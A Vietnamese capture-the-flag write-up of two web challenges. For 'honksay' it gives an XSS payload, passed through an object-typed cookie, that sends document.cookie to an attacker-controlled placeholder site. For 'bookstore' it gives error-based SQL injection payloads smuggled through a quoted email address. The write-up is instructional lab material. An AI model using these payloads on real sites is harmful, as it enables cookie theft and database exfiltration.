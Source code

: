 # honksay
![Picture](https://user-images.githubusercontent.com/87886468/187146364-be5d4596-96fc-4bf2-bbcb-cd9107c532e5.png)
### Kiểm tra chức năng web
Bắt đầu challenge, ta thấy trang web chỉ có 1 chỗ để đưa input vào, tiến hành xem source code web thì không có thuộc tính nào là hidden,ta nhập các dữ liệu bất kì cũng như payload xss thì đều sẽ được redirect tới /report. Ta dùng burpsuite để bắt request ta sẽ thấy body request là url=<your_input> .Ta tiến hành kiểm tra cookie thì thấy có 2 cookie là honk và honkCount tiến hành chỉnh sửa thì ta thấy cookie từ honk sẽ được sanitize xss còn honkCount thì không.

### Đọc source code
goose.js
```javascript
const puppeteer = require('puppeteer');
const FLAG = process.env.FLAG || "maple{fake}";

async function visit(url) {
  let browser, page;
  return new Promise(async (resolve, reject) => {
    try {
      browser = await puppeteer.launch({
        headless: true,
        args: [
          '--no-sandbox',
          '--disable-default-apps',
          '--disable-dev-shm-usage',
          '--disable-extensions',
          '--disable-gpu',
          '--disable-sync',
          '--disable-translate',
          '--hide-scrollbars',
          '--metrics-recording-only',
          '--mute-audio',
          '--no-first-run',
          '--safebrowsing-disable-auto-update'
                ]
            });
        page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
        console.log(page.cookies());
        await new Promise(resolve => setTimeout(resolve, 500));
        console.log("admin is visiting url:");
        console.log(url);
        await page.close();
        
        console.log("admin visited url");
        page = null;
    } catch (err){
        console.log(err);
    } finally {
        if (page) await page.close();
        console.log("page closed");
        if (browser) await browser.close();
        console.log("browser closed");
        //no rejectz
        resolve();
        console.log("resolved");
    }
  });
};


module.exports = { visit }
```
Ta sẽ hiểu hàm visit() sẽ nhận tham số là url, sau đấy sẽ tiến hành truy cập vào url nếu domain là localhost thì cookie flag sẽ được set. 
```javascript
page = await browser.newPage();
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost',
            samesite: 'none'
        });
        await page.goto(url, {waitUntil : 'networkidle2' }).catch(e => console.log(e));
```
Đọc app.js

Ta thấy thêm 1 subdirectory là /changehonk và URL parameter là newhonk
```javascript
app.get('/changehonk', (req, res) => {
    res.cookie('honk', req.query.newhonk, {
        httpOnly: true
    });
    res.cookie('honkcount', 0, {
        httpOnly: true
    });
    res.redirect('/');
});
```
Khi truy cập http://honksay.ctf.maplebacon.org/ thì sẽ tiến hành kiểm tra xem client đã có cookie hay chưa, nếu chưa sẽ set cookie mặc định cho client, còn nếu đã có sẽ tiến hành kiểm tra nếu cookie là object thì sẽ set finalhonk là cookie, nếu không phải object thì sẽ tiến hành santize xss cookie và set value cho message và amountoftimeshonked.
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
    } else {
        const initialhonk = 'HONK';
        res.cookie('honk', initialhonk, {
            httpOnly: true
        });
        res.cookie('honkcount', 0, {
            httpOnly: true
        });
        res.redirect('/');
    }
});
```
Ta đã thấy lỗ hỏng để ta có thể lấy flag 
```javascript
app.get('/', (req, res) => {
    if (req.cookies.honk){
        //construct object
        let finalhonk = {};
        if (typeof(req.cookies.honk) === 'object'){
            finalhonk = req.cookies.honk
        } else {
            finalhonk = {
                message: clean(req.cookies.honk), 
                amountoftimeshonked: req.cookies.honkcount.toString()
            };
        }
        res.send(template(finalhonk.message, finalhonk.amountoftimeshonked));
```
Ta sẽ làm cho cookie honk thành object và gán 1 trong 2 key với value là payload XSS, khi được render XSS sẽ xảy ra.

#### Payload
http://localhost:9988/changehonk?newhonk[message]=%3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

Hoặc
 
http://localhost:9988/changehonk?newhonk[amountoftimeshonked]=3Cscript%3Evar%20i%20%20%3D%20new%20Image%28%29%3B%20i.src%20%3D%20%22https%3A%2F%2Fyour_website%3Fflag%3D%22%20%2B%20document.cookie%20%3C%2Fscript%3E

#### Giải thích 
Hàm visit() sẽ truy cập vào url, nên ta sẽ cho truy cập vào localhost:9988 để flag cookie được set, khi ta truy cập vào /changehonk thì cookie honk  sẽ được set honk = req.query.newhonk, sau đấy sẽ redirect về /, sau khi redirect về /, sẽ tiến hành kiểm tra liệu cookie honk có phải là object, vì ta muốn bypass filter XSS nên ta sẽ cho cookie honk thành object, cookie honk sẽ được render và XSS sẽ xảy ra và gửi request tới server của ta với cookie. 

# bookstore
Challenge cho ta các source nên ta sẽ tiến hành xem qua các file.

Bắt đầu là file validator.js, ta thấy function validateEmail() sẽ dùng isEmail của thư viện validator. Ta tiến hành tìm source code của validator trên google và ta sẽ có code của  ![isEmail](https://github.com/validatorjs/validator.js/blob/86a07ba4f3f710f639e92a62cf81dd3321ef9ee8/src/lib/isEmail.js) Tiến hành đọc qua code thì ta sẽ thấy 
```javascript
  if (user[0] === '"') {
    user = user.slice(1, user.length - 1);
    return options.allow_utf8_local_part ?
      quotedEmailUserUtf8.test(user) :
      quotedEmailUser.test(user);
  }
```
Xét email format: user@domain

isEmail sẽ xét phần user nếu user bắt đầu bằng " thì nó sẽ hiểu rằng chuỗi có dạng "something" sau đấy sẽ chuyển thành something mà không tiến hành filter bất cứ kí tự nào trong " ". Hàm validateEmail() sẽ thực thi khi ta tiến hành đăng ký email với option kindle, nên ta sẽ nhìn qua source code:
```javascript
 insertEmail(email, book_id) {
        const query = `INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');`;
        return new Promise((resolve, reject) => {
            this.db.query(query, (error) => {
                if (error != null) {
                    reject(error);
                } else {
                    resolve(null);
                }
            })
        })
    }
```
Tại đây ta có ý tưởng sẽ kết thúc câu lệnh insert và chạy thêm câu lệnh update, cho titile sẽ mang giá trị của texts để ta lấy flag, nhưng vì hàm isEmail giới hạn số kí tự, nên ta sẽ tìm cách khác, ta thấy rằng khi có lỗi xảy ra sẽ được hiển thị => Error Based Injection, tại đây ta có thể dùng updatexml hoặc là extractxml để tiến hành:
### Payload:
"',extractvalue(1,concat(1,(SELECT texts from books limit 1))))#@gmail.com

"',updatexml(1,concat(1,(SELECT texts from books limit 1)),1))#@gmail.com

